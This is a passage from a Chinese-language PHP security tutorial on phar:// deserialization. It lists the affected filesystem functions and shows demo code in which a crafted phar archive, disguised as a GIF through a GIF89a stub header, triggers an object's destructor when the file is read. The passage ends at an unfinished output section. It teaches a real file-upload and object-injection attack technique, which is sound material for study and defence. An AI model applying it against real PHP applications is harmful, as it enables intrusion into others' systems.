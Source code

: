 有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过`phar://`伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下：

| 受影响函数列表    |              |              |                   |
| ----------------- | ------------ | ------------ | ----------------- |
| fileatime         | filectime    | file_exists  | file_get_contents |
| file_put_contents | file         | filegroup    | fopen             |
| fileinode         | filemtime    | fileowner    | fileperms         |
| is_dir            | is_excutable | is_file      | is_link           |
| is_readable       | is_writable  | is_writeable | parse_ini_file    |
| copy              | unlink       | stat         | readfile          |

用一个小案例加以证明：
```php
<?php
class TestObject {
    public function __destruct()
    {
        echo "destruct";
    }
}
$filename='phar://phar.phar/hack.php';
file_get_contents($filename);
?>
```
执行结果如下：
```php
$ php .\phar_des.php
destruct
```

同时，phar可以伪装成任意格式文件，php识别phar文件是通过其文件头的**stub**，更确切一点来说是`__HALT_COMPILER();?>`这段代码，对**前面的内容**或者**后缀名**是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。
```php
<?php
    class TestObject {
    }
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFile('hack.php');//添加要压缩的文件
    $phar->stopBuffering();
?>
```
![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/04/2021-04-16-3155836478.png)

即使把phar后缀修改，也不会影响利用。
```php
<?php
class TestObject {
    public function __destruct()
    {
        echo "\n"."destruct";
    }
}
$filename='phar://phar.gif/hack.php';
echo file_get_contents($filename);
?>
```
执行结果如下：